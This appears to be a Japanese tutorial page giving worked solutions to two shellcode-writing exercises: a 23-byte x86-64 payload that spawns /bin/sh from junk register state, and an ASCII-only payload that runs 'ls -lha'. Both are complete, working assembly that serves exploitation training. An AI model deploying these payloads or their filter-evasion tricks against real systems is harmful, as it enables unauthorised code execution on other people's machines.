 ```yaml
---
title: 例題の解答 - シェルコードの書き方
date: 2022-02-06 14:04:00
lang: ja
---
```


## 例題１
【問題】
すべての汎用レジスタが0xdeadbeefcafebabeの状態から<code>/bin/sh</code>を起動するシェルコードを24バイト以内で書け。ただし、シェルコード領域は書き換え不可能とする。（汎用レジスタはRSPやRBPも含む。）

【解答】
シェルを起動するためには

- rdxを0にする
- rsiを0にする
- rdiに"/bin/sh"の文字列ポインタを入れる
- raxを59にする
- `syscall`命令を呼ぶ

という処理が必要です。まずraxを59にすることを考えます。
```
mov eax, 59
```
では5バイト消費してしまうので、alに対する操作にします。そのためeaxを0にしてからalに59を書き込みます。
```
xor eax, eax
mov al, 59
```
これで4バイトになりました。
xorにより最初にeaxが0になるので、これを利用して`cdq`命令でrdxレジスタを0にしましょう。rsiについてはxorかmovで0にして、`syscall`命令を呼びます。
```
xor eax, eax
cdq
mov esi, eax
mov al, 59
syscall
```
ここまで9バイトで条件を4つクリアしました。
残る条件はrdiに"/bin/sh"のアドレスを入れることです。`call`命令を使うと短く済むのですが、今回スタックポインタが不正なアドレスを指しているので`call`や`pop`は使えません。
すると`lea`命令を使うことを考えますが
```
lea rdi, [rel s_binsh]
```
は8バイトも使ってしまいます。"/bin/sh\\0"に8バイト必要なので、ここまでを合わせると8+8+9=25となり、24バイトでは実現できません。そこで、別の方法を使ってシェルコード領域のポインタを取得します。
今回raxレジスタの初期状態は0xdeadbeefcafebabeなので、この状態でシステムコールを呼ぶと必ず失敗します。この際rcxレジスタに戻りアドレスが入るので、ここからシェルコード領域のアドレスを取得できます。シェルコードのアドレスが分かれば、rcxに値を足して"/bin/sh"へのポインタを作れば完成です。
以下のシェルコードは23バイトです。
```
syscall
xor eax, eax
cdq
mov esi, eax
lea rdi, [rcx+13]
mov al, 59
syscall
db "/bin/sh",0
```
このシェルコードは[ここ](src/smalsh.S)からダウンロードできます。
同じ条件でもっと短いシェルコードを書けたよ〜という方はご一報ください。

## 例題２
【問題】
0x00から0x7Fまでのバイト列のみを使って「ls -lha」を実行するシェルコードを書け。ただし、シェルコード領域は書き込み不能とする。また、RSPは正常なスタックポインタを指しているが、それ以外のレジスタやスタック上のデータの初期状態はランダムと仮定する。 

【解答】
まずコマンドを実行するためには次の処理をする必要があります。

- rdxを0にする
- rsiを引数配列のポインタにする
- rdiを文字列ポインタにする
- raxを59にする
- `syscall`命令を呼ぶ

レジスタの初期状態がランダムなので、まずはレジスタを0にすることを考えます。これは説明した通り、次の命令で実現できます。
```
push rax
xor rax, [rsp]
```
したがって、rdxを0にするのは実現可能です。次にraxを59にする方法ですが、add命令が使えます。
```
add al, 59
```
これでシステムコール番号も用意できました。`syscall`命令はASCIIの範囲内なのでそのまま使えます。

さて、文字列ポインタを取得する方法ですが、`call`命令や`lea`命令を使うとASCIIの範囲を超えるため、例題１と同じく`syscall`命令を使ってシェルコードのアドレスを取得します。今回レジスタの初期状態は未定義ですので、システムコールが必ず失敗する（あるいは意味の無い動作をする）状況を作ってから`syscall`命令を呼び出しましょう。
```
; rax=0
push rax
xor rax, [rsp]
; rsi=0
push rax
pop rsi
; rcx=shellcode+delta
syscall
; <-- retaddr
```
シェルコードのアドレスが得られたので、シェルコード上に用意した各種文字列へのポインタが計算できます。次のようにしてraxにデータへのポインタが入ります。
```
push rcx
pop rax
add al, arg1 - retaddr
```
なお、今回alレジスタに固定値を加算しているため2つの問題が発生します。
1つはオフセット`arg1 - retaddr`がASCIIで表せないオフセットになる可能性です。今回作るシェルコードは十分に小さいのでこれは起こりません。もしオフセットが大きくなったとしても、ゴミデータでオフセットをずらして2バイトの値にし、axレジスタに加算すれば問題は回避できます。
次にalへの加算でオーバーフローが発生した場合に64-bitとして見たときの計算結果がずれる可能性です。こちらはシェルコードがロードされるアドレスによって十分に起こり得ます。その場合、初めに`syscall`命令を呼ぶ前に`push rax; pop rax;`のようなゴミ命令を入れてオフセットをずらせば解決できます。

さて、ここまでの説明でシェルコードは作れます。
```
; rax=0
push rax
xor rax, [rsp]
; rsi=0
push rax
pop rsi
; rcx=shellcode+delta
syscall
@retaddr:
; rdx=0; push 0
push rdx
xor rdx, [rsp]
push rdx
; push arg2
push rcx
pop rax
add al, @arg2 - @retaddr
push rax
; push arg1
push rcx
pop rax
add al, @arg1 - @retaddr
push rax
; push arg0
push rcx
pop rax
add al, @arg0 - @retaddr
push rax
; rdi=arg0
push rax
pop rdi
; rsi=rsp
push rsp
pop rsi
; rax=59
push rdx
pop rax
add al, 59
; syscall
syscall

@arg0:
db "/bin/sh", 0
@arg1:
db "-c", 0
@arg2:
db "/bin/ls -lha", 0
```
このシェルコードは[ここ](src/asciils.S)からダウンロードできます。
